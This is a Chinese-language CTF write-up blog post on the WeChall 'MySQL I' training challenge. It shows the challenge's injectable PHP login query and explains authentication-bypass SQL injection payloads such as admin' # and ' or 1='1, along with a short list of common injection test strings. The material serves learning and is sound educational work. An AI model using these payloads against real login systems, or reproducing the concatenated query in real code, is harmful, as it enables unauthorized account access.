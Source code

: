 ```yaml
---
layout: post
title: "wechall-mysql 1"
date: 2019-05-15
author: jjnoob
categories:
- 2019-05
tags:
- ctf
---
```


* content
{:toc}

> sql注入的学习. 看别人的writeup, 积累.

[参考 leehaming](https://blog.csdn.net/lee_ham/article/details/77185049)


# Wechall - Training: MySQL I (MySQL, Exploit, Training)

```
username: admin' or '1'='1
passowrd: anyone
```

# 源码

```sql
/* TABLE STRUCTURE */
CREATE TABLE IF NOT EXISTS users (
userid    INT(11) UNSIGNED AUTO_INCREMENT PRIMARY KEY, 
username  VARCHAR(32) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL,
password  CHAR(32) CHARACTER SET ascii COLLATE ascii_bin NOT NULL
) ENGINE=myISAM;
```
创建一个表users，表的三个列分别为userid，username，password


* `UNSIGNED` 无符号, 非负数, 可以增加数据长度.
* `CHARACTER SET utf8` 设置默认编码为utf8
* `COLLATE utf8_general_ci` 数据库校对规则。该三部分分别为数据库字符集、解释不明白、区分大小写.
* `collate` : 校对集，主要是对字符集之间的比较和排序.

```php
# Username and Password sent?

if ( ('' !== ($username = Common::getPostString('username'))) && (false !== ($password = Common::getPostString('password', false))) ) {
      auth1_onLogin($chall, $username, $password);
}
```
是判断用户名和密码是否已经发送给服务器

* `Common::getPostString`是调用已有函数，功能为从表单中获取字符串信息
* `auth1_onLogin`为下边的自定义函数，功能为验证用户名和密码


```php
/**
 * Get the database for this challenge.
 * @return GDO_Database
 */
function auth1_db()
{
        if (false === ($db = gdo_db_instance('localhost', WCC_AUTH_BYPASS1_USER, WCC_AUTH_BYPASS1_PASS, WCC_AUTH_BYPASS1_DB))) {
                die('Database error 0815_1!');
        }
        $db->setLogging(false);
        $db->setEMailOnError(false);
        return $db;
}
```

获取本题需要的数据库, 即登陆.


```php
/**
* Exploit this!
* @param WC_Challenge $chall
* @param unknown_type $username
* @param unknown_type $password
* @return boolean
*/
function auth1_onLogin(WC_Challenge $chall, $username, $password)
{
      $db = auth1_db();

      $password = md5($password);

      $query = "SELECT * FROM users WHERE username='$username' AND password='$password'";

      if (false === ($result = $db->queryFirst($query))) {
              echo GWF_HTML::error('Auth1', $chall->lang('err_unknown'), false); # Unknown user
              return false;
      }

      # Welcome back!
      echo GWF_HTML::message('Auth1', $chall->lang('msg_welcome_back', htmlspecialchars($result['username'])), false);

      # Challenge solved?
      if (strtolower($result['username']) === 'admin') {
              $chall->onChallengeSolved(GWF_Session::getUserID());
      }

      return true;
}
```


* 这部分就是之前提到的自定义函数，用来处理表单提交的数据。函数与表单之间通过参数`username`和`password`传递数据
* 从html表单中输入的username和password就可以代入到这里的query语句中就可以了。
* 接着`result=result=db->queryFirst($query)`处理MySQL语句并且将结果返回给result，如果查询结果不是false，说明结果存在。
* `$result[‘username’]) === ‘admin’`判断用户是否是admin，如果是说明管理员登录。
* 完成登陆过程。


<br />

# 注入
输入username和password使得执行query语句的结果存在并且用户名为Admin。但是由于我们不知道真实的admin的密码，所以我们想办法绕过password。即我们可以减少select的限制条件，通过将query中AND及其后边的语句在MySQL语句中注释掉，就可以将query改写为：
```sql
SELECT * FROM users WHERE username='admin'
```

单行注释:`#`和`–`

构造过程:
* username为：`admin' #`
* password不填

另外, 这种也是可以的:
```sql
admin' or '1'='1
anyone
```
常见的SQL诸如语句测试:
```sql
’ or ‘1’=’1 
’ or 1=1 – 
‘or’=’0’ 
“or 1=1 – 
or 1=1 – 
‘or’ a ‘=’ a 
“or” a “=” a
```

<br />

# Writeup 2


[参考博客园宋姑娘](https://www.cnblogs.com/dreamofus/p/5950844.html)


## 源码
* 判断方式:
```sql
"SELECT * FROM users WHERE username='$username' AND password='$password'";
```
* 而且有admin这个用户的特判

## 注入:
* 利用php的局部注释“#”可以进行攻击：
* username输入：`admin' and 1=1 #`

这里的代码将被翻译成:
```sql
username='admin' # and  password='$password'"
```
所以密码的验证将被忽略，可以作为admin登录


<br />

# SQL万能密码：`' or 1='1`

[参考friendan](https://blog.csdn.net/friendan/article/details/52215980)

```sql
select name,pass from tbAdmin where name='admin' and pass='123456'
```

输入用户名：`' or 1='1`

SQL变成:
```sql
select name,pass from tbAdmin where name='' or 1='1' and pass='123456'
```

`1='1'` 永远为真，所以就验证通过.
